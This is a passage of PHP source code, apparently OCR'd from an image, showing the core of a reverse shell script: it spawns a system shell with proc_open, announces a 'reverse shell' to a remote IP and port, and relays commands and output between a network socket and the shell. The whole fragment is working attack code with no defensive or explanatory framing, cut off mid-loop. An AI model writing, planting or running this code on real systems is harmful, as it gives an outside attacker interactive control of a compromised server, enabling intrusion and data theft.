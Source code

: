 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ php
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~